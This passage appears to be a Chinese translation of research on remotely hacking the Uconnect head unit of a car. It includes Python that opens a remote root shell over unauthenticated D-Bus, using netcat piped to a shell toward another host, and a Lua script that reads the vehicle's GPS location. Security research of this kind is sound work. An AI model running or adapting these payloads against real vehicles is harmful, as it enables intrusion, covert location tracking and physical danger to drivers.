 你可以推测出在头单元上使用根权限来执行代码并不难，尤其是当默认安装的是常用的通讯工具时，比如netcat（nc）。我们希望这个漏洞可以更出色一点（编辑注释：这是假话！），虽然在头单元上执行代码不是很困难。下面的四行Python代码可以在未经篡改过的头单元上打开一个远程根shell，这意味着攻击者并不需要通过劫持头单元就可以入侵系统。

```
import dbus
bus_obj=dbus.bus.BusConnection("tcp:host=192.168.5.1,port=6667") 
proxy_object=bus_obj.get_object('com.harman.service.NavTrailService','/com/ha rman/service/NavTrailService') 
playerengine_iface=dbus.Interface(proxy_object,dbus_interface='com.harman.Ser viceIpc')
print playerengine_iface.Invoke('execute','{"cmd":"netcat -l -p 6666 | /bin/sh | netcat 192.168.5.109 6666"}')

```

0x02 Uconnect攻击载荷（attack payloads）
==================================

至此，我们就可以在头单元上运行任意代码了，尤其是在Uconect系统中的OMAP芯片上。在这一部分，我们讲解了几种能影响到汽车内部以及无线电广播功能的LUA脚本，例如调高音量或阻止某个控制开关的响应（也就是音量）。通过这个脚本你就能知道在具备了远程shell和Uconnect系统权限后，我们可以在汽车上做哪些手脚。接下来，我们会说明如何通过远程访问D-Bus系统来实现平行感染并发送任意的CAN信息，从而影响汽车上除了头单元以外的其他系统。

GPS
---

头单元能够查询并获取车辆上的GPS坐标，不是通过Sierra Wireless调制解调器就是通过Wi-Fi。通过端口6667上未认证的D-Bus通讯也可以获取到这些值，这样造成的结果就是可以追踪任意车辆的位置。换句话说，我们下面的这个脚本就可以在头单元上运行，但是只能通过查询暴露的D-bus服务来获取坐标值。

```
service = require("service")
gps = "com.harman.service.NDR"
gpsMethod = "JSON_GetProperties"
gpsParams = {
   inprop = {
   "SEN_GPSInfo"
   }
}
response = service.invoke(gps, gpsMethod, gpsParams) print(response.outprop.SEN_GPSInfo.latitude, response.outprop.SEN_GPSInfo.longitude)

```

例如，如果你在头单元上执行‘`lua getGPS.lua`’，那么就会返回如下的结果：

lua getGPS.lua
==============

40910512 -73184840

然后，你可以稍加修改，在谷歌地图中输入40.910512, -73.184840，这样就能确定其位置了。在这个例子中，是长岛的某个位置。

HVAC
----

头单元可以控制汽车的供暖和空调。下面的代码会把风扇设置到一个任意速度。

广播音量
----
